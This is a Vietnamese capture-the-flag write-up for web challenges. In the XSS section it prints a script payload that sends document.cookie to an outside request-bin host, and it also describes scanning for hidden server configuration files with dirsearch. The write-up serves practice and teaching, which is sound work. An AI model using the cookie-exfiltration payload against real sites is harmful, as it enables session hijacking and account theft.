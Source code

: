 
# Writeup Cookie Hân Hoan

<br>

![enter image description here](https://cyberlances.files.wordpress.com/2021/10/cookie.png?w=1024)

<br>

| Category |
|:--:|
| Web Exploitation |
| Network |
| Web Basic |

<br> 

## Web Exploitation

### XSS

> Các cậu còn nhớ sự kiện Livestream lần đầu tiên của Hazy , có một số bạn đã nghịch ngợm làm bay màu cái Chatbox. Đố bạn cho bay màu chal12 này đấy

Ở bài này hint đã thể hiện rõ ràng ở tên bài nên mình cũng không cần nghĩ nhiều :v Truy cập vô trang web thì có 1 khung submit duy nhất để mình có thể XSS.

Trước tiên thử chèn `<script>alert(1);</script>` và trang web nhảy lên 1 pop-up hiển thị số 1 . Bắt đầu chèn những đoạn script kì quái vào để lấy cookie của trang web thuii. Trước khi lấy cookie thì cần tạo 1 trang web để mình nhận cookie về, ở đây mình sẽ dùng [postb](https://postb.in/)

Sử dụng payload: 

    <script>
    	window.location = "https://postb.in/b/1638380767571-3227989608421?cookie=" + document.cookie;
    </script>

Quay lại trang postb reload thì thấy hiển thị flag: `FLAG{10c802c9c6afc26769764b5b986d708a}`

###  Misconfiguration

> Chẳng biết vô tình hay cố ý, Gà mắc phải một sai lầm không đáng có trong việc thiết lập cấu hình Web Server.
>
> Từ một lỗ hổng nhỏ tí xíu, Mèo Yang Hồ sẽ tận dụng mọi trí tưởng tượng và kĩ thuật để thâm nhập được sâu hơn.

Đề bài nhắc đến các file cấu hình ẩn + tên bài có thể đoán đc flag được giấu trong các file cấu hình mà người dùng không được truy cập vào. Ở đây mình sử dụng [dirsearch](https://github.com/maurosoria/dirsearch) để quét các file ẩn. 

Sau khi quét thì nó hiện 1 loạt các file rất nhiều, chịu khó lướt trong đó thì sẽ thấy có file **.htaccess** và file **web.config** có màu xanh lá khác bọt trong đống đó nên mình thử truy cập vào 2 file này.
